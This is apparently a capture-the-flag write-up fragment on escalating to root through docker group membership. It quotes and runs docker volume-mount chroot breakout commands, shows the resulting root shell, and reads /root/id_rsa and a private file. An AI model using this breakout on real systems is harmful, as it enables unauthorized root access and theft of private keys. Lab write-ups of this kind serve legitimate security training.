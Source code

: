 There is a lot going on, which I could not process to find the PrivEsc vector.
I did work with docker before but I don't have any idea what can we do with mounted isolated environments.

Also we have the admin lp1 who sent us a warning to check conf files.

* checked lp1's home dir, nothing interesting.

* Googled about privesc via docker:
	
	```
	https://fosterelli.co/privilege-escalation-via-docker

		If you happen to have gotten access to a user-account on a machine, and that user is a member of the ‘docker’ group, running the following command will give you a root shell:
			> docker run -v /:/hostOS -i -t chrisfosterelli/rootplease

	------

	https://gtfobins.github.io/gtfobins/docker/

		It can be used to break out from restricted environments by spawning an interactive system shell.
		The resulting is a root shell.
		    > docker run -v /:/mnt --rm -it alpine chroot /mnt sh

	```

So we can break out as root to our host machine!

> docker run -v /:/mnt --rm -it bash chroot /mnt sh

```
	# whoami
	root
```

#### Final flag

now we are root, we just need to cat out the ip_rsa on /root

* Side track:
```
# cat /root/private.txt
	# Life and acomplishments of Alvaro Squalo - Tome I

	Memoirs of the most successful digital nomdad finblocktech entrepreneur
	in the world.

	By himself.

	## Chapter 1 - How I became successful

```

```
# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBA...
```